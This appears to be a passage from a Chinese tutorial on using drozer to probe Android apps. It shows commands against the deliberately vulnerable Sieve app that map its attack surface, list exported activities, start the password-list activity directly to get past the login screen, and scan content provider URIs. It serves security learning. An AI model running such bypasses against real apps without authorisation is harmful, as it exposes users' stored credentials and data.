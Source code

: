 ![image-20200628144936720](/images/drozer/image-20200628144936720.png)

#### 4、漏洞检测

```shell
dz> run app.package.attacksurface com.mwr.example.sieve
Attack Surface:
  3 activities exported
  0 broadcast receivers exported
  2 content providers exported
  2 services exported
    is debuggable
```

![image-20200628145213646](/images/drozer/image-20200628145213646.png)

#### 5、Activities

Activities组件是Android新建APP每个功能均会存在的Activities页面；同样如果未对某些页面作限制可能导致绕过登录入口而进入某功能。

```shell
dz> run app.activity.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
  com.mwr.example.sieve.FileSelectActivity
    Permission: null
  com.mwr.example.sieve.MainLoginActivity
    Permission: null
  com.mwr.example.sieve.PWList	//可倒出，未设置权限认证
    Permission: null
```

![image-20200628145406392](/images/drozer/image-20200628145406392.png)

#### 6、Activities攻击

```shell
//会直接绕过登录,进入密码添加.
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
```

![image-20200628145915024](/images/drozer/image-20200628145915024.png)

#### 7、ContentProvider

Android平台提供了Content Provider使一个应用程序的指定数据集提供给其他应用程序。这些数据可以存储在文件系统中、在一个SQLite数据库、或以任何其他合理的方式。其他应用可以通过ContentResolver类从该内容提供者中获取或存入数据。只有需要在多个应用程序间共享数据是才需要内容提供者。



```shell
dz> run scanner.provider.finduris -a com.mwr.example.sieve
```

![image-20200628151122062](/images/drozer/image-20200628151122062.png)

<center>Able to Query可查询数据</center>
